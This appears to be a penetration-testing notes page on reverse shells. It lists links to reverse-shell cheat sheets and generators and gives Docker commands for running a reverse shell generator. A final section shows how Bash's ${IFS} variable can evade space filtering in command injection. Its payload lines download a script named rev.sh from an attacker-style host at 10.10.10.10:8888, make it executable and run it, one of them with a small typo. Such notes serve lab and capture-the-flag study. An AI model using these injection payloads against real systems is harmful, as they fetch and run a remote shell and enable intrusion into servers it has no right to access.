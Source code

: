 !!! info ""

    #### sources

    - [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary)
    - [calc1f4r Rootme](https://github.com/calc1f4r/Rootme)
    - [Reverse Shells](https://reverse-shell.sh/)
    - [Online - Reverse Shell Generator](https://www.revshells.com/)
    - [ShutdownRepo/shellerator](https://github.com/ShutdownRepo/shellerator)
    - [0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)
    - [cybervaca/ShellReverse](https://github.com/cybervaca/ShellReverse)
    - [pyminifier](https://liftoff.github.io/pyminifier/)
    - [xct/xc](https://github.com/xct/xc/)
    - [Reverse Shell Generator](https://weibell.github.io/reverse-shell-generator/)
    - [t0thkr1s/revshellgen](https://github.com/t0thkr1s/revshellgen)
    - [mthbernardes/rsg](https://github.com/mthbernardes/rsg)
    - [My Pentest Tools](https://tex2e.github.io/reverse-shell-generator/index.html)

!!! info ""
    
    #### 0dayctf
    
    [0dayctf](https://github.com/0dayCTF/reverse-shell-generator)

    ```shell
    wget https://github.com/0dayCTF/reverse-shell-generator/archive/refs/heads/main.zip
    unzip main.zip
    cd reverse-shell-generator-main
    docker build -t reverse_shell_generator .
    docker run -d -p 8090:80 reverse_shell_generator

    http://127.0.0.1:8090
    ```

!!! info ""

    #### Bash IFS - Reverse Shell - Burp Repeater - PHP

    - IFS Internal Field Separator
    - The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings.
    - The default value of _IFS_ is a three-character string comprising a space, tab, and newline

    ```shell
    ls${IFS}-la
    ping${IFS}127.0.0.1
    wget${IFS}http://10.10.10.10:8888/rev.sh
    chmod${IFS}777{IFS}rev.sh
    bash${IFS}rev.sh
    ```
